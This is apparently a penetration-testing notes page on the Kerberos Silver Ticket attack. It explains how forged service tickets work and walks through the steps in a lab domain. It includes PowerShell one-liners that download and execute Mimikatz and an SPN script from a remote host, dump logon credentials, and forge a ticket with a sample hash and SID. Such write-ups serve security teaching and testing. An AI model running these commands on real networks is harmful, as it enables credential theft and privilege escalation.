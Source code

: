 # Silver Ticket

## <mark style="color:red;">Intro</mark>

#### This attack includes forging a cracked TGS Kerberos ticket in order to impersonate another user and escalate privileges from the perspective of a service the TGS was cracked for.



On the last step of the process when the client sends a TGS to the service that is where we can send a forged TGS and get access directly to the service and get a service ticket using this method.

![](<../../../.gitbook/assets/image (191).png>)

#### Silver ticket abuses the part of Kerberos authentication where a client sends a Valid TGS to get a service ticket. So if an attacker knows the hash of the service account he can forge a fake service ticket with it. Kerberos will trust it since it can be decrypted by the service as its signed by the NTLM hash of the service.

{% hint style="info" %}
downside of this attack is at unlike golden ticket which gives us access to everything.

&#x20;A silver ticket will only allow us access to a particular service or all the services that are running with the same service account.

Another disadvantage of this attack is if the service account is a machine account or a user account. If the password of the account changes this attack will fail. Since we wont have the correct hash of the user/machine account usually it changes within 30 days for machines.&#x20;

We would generally target these services when it comes to performing a silver ticket attack. CIFS (file system), HOST ( can schedule tasks ), RPCSS Host (runs wmi), WSman/http (ps remoting) all of these use the machine account as there service account.
{% endhint %}

## <mark style="color:red;">Dumping Password Hash</mark>

If an attacker can gain admin rights to the computer (to gain debug access) or be able to run code as local System, the attacker can dump the AD computer account password hash from the system using Mimikatz (the NTLM password hash is used to encrypt RC4 Kerberos tickets)

#### run this with admin privileges to load mimikatz into memory and dump user hashes:

```
powershell -ep bypass -c "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.56.1/mimikatz.ps1'); invoke-mimikatz -command 'sekurlsa::logonpasswords'"
```

![](<../../../.gitbook/assets/image (189).png>)

**Target** – This is the host, which can be copied from the SPN value.

```
powershell -ep bypass -c "iex(new-object system.net.webclient).downloadstring('http://192.168.56.1/getspn.ps1')"
```

![](<../../../.gitbook/assets/image (186).png>)

## <mark style="color:red;">Forging Silver Ticket</mark>

#### the syntax for mimikatz command is:

```
 Invoke-Mimikatz -Command 'kerberos::golden /domain:megabank.local /sid:S-1-5-21-4081310294-3909750490-1069944866-1156 /target:sql.megabank.local:60111 /service:sql /rc4:77a5ee35032ad22d515577e7bd8e56c7 /user:paul /ptt'
```

**/domain :** domain name

**/sid:** domain SID value

**/target:** target service SPN

**/service:** service name

**/user:** username to create ticket for

**/rc4:** NTLM hash, will use

**/id , /groups :** these are to specify user id and group but this is optional

/endin : specify ticket lifetime in minutes (default 10 years)

**/ptt :** stands for pass the ticket it will load the ticket in memory. If we want to extract ticket on disk we can use **/ticket** option instead.

#### Now if we run the command above we get silver ticket that is created and stored in our current session

#### Now if we try to access the file system on sql.megabank.local machine. We can do it because we already have the tickets to authenticate us.

## <mark style="color:red;">Host Exploitation with Silver Ticket</mark>

By issuing a klist command you can see that we now have the ticket for sql service.

![](<../../../.gitbook/assets/image (190).png>)

more attack scenarios with silver tickets

{% embed url="https://adsecurity.org/?p=2011" %}
